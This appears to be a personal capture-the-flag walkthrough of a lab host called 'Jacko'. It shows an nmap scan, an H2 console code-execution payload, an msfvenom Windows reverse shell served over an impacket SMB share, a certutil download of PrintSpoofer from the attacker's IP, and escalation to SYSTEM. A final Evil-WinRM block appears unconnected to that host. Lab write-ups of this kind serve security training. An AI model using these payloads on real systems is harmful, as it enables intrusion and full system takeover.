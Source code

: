 ```sh
nmap -sC -sV -oA jacko 192.168.140.66    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-03 21:49 CST
Nmap scan report for 192.168.140.66
Host is up (0.045s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: H2 Database Engine (redirect)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
8082/tcp open  http          H2 database http console
|_http-title: H2 Console
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 20s
| smb2-time: 
|   date: 2023-02-04T03:50:10
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.77 seconds
```

Found exploit

https://www.exploit-db.com/exploits/49384

Right now it is setup for Linux

```d
-- Evaluate script
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval"; CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c //192.168.49.122/Share/shell.exe && shell.exe").getInputStream()).useDelimiter("\Z").next()');
```

Prepped this and generated the msfvenom file

`msfvenom -p windows/shell_reverse_tcp LHOST="192.168.49.122" LPORT=8082 -f exe > shell.exe`
Made sure to use the same port to avoid blocking

Used impacket to start smbserver with share.

`python smbserver.py -smb2support Share /home/kali/OPG/jacko`

Ran the script above in the H2 console after logging in.

Upon login I found commandds to not work. Set PATH
`set PATH=%SystemRoot%\system32;%SystemRoot%;`

```
C:\Windows\Temp>systeminfo
systeminfo

Host Name:                 JACKO
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.18363 N/A Build 18363
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          tony
Registered Organization:   
Product ID:                00331-10000-00001-AA058
Original Install Date:     4/22/2020, 3:11:40 AM
System Boot Time:          8/12/2020, 2:20:45 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~3094 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.13989454.B64.1906190538, 6/19/2019
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 634 MB
Virtual Memory: Max Size:  2,687 MB
Virtual Memory: Available: 1,112 MB
Virtual Memory: In Use:    1,575 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\JACKO
Hotfix(s):                 9 Hotfix(s) Installed.
                           [01]: KB4552931
                           [02]: KB4497165
                           [03]: KB4513661
                           [04]: KB4516115
                           [05]: KB4517245
                           [06]: KB4521863
                           [07]: KB4537759
                           [08]: KB4552152
                           [09]: KB4556799
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 192.168.122.66
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
C:\Windows\Temp>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

```

We are running on an older version of Windows 10 with SEImpersonatePrivilege enabled. We can use printspoofer.exe
`https://github.com/dievus/printspoofer`

`certutil.exe -urlcache -split -f "http://192.168.49.122/PrintSpoofer.exe" C:\Users\tony\Desktop\print.exe`

`C:\Users\tony\Desktop>print.exe -i -c cmd`
We are now system

```
*Evil-WinRM* PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```